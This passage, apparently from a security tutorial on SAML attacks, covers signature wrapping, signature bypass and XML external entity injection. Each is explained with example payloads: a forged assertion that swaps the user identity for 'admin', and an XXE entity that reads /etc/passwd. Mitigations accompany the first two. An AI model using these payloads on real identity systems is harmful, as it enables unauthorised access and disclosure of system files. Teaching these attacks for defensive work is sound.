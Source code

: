 - The **Signature** validates the first assertion, but the SP processes the **second malicious assertion** that grants access as "admin."

**Mitigation:**
- Ensure that SAML implementations strictly **verify signatures** and only process the signed assertion.

---

### **2. SAML Signature Bypass**

**What is it?**  
If a Service Provider fails to validate the **digital signature** properly, an attacker can modify the assertion.

**Exploitation Example:**

Original **Signed** Assertion:
```xml
<Assertion>
  <Subject>
    <NameID>user@example.com</NameID>
  </Subject>
</Assertion>
```

Modified (Unsigned) Assertion:
```xml
<Assertion>
  <Subject>
    <NameID>admin@example.com</NameID>
  </Subject>
</Assertion>
```

If the SP **does not enforce signature verification**, the attacker’s modified assertion grants unauthorized access.

**Mitigation:**
- Always verify digital signatures on SAML assertions.
- Reject unsigned or tampered assertions.

---

### **3. XML External Entity (XXE) in SAML**

**What is it?**  
If the SAML parser is **vulnerable to XXE**, an attacker can inject an external entity to read sensitive files or perform SSRF.

**Example Exploit:**
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<SAMLResponse>
  <Assertion>
    <Subject>
      <NameID>&xxe;</NameID>
    </Subject>
  </Assertion>
</SAMLResponse>
```
